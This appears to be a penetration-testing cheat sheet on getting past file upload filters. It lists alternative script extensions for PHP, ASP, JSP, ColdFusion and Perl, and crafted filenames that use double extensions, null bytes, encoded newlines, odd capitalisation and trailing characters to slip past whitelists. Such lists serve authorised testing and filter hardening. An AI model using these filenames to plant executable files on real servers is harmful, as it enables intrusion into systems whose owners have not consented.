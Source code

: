 # 404  File upload Bypass

# Blacklisting Bypass
PHP → .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
ASP → .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp → .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion → .cfm, .cfml, .cfc, .dbm
Perl → .pl, .cgi
# Using random capitalization → .pHp, .pHP5, .PhAr


# Whitelisting Bypass
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg

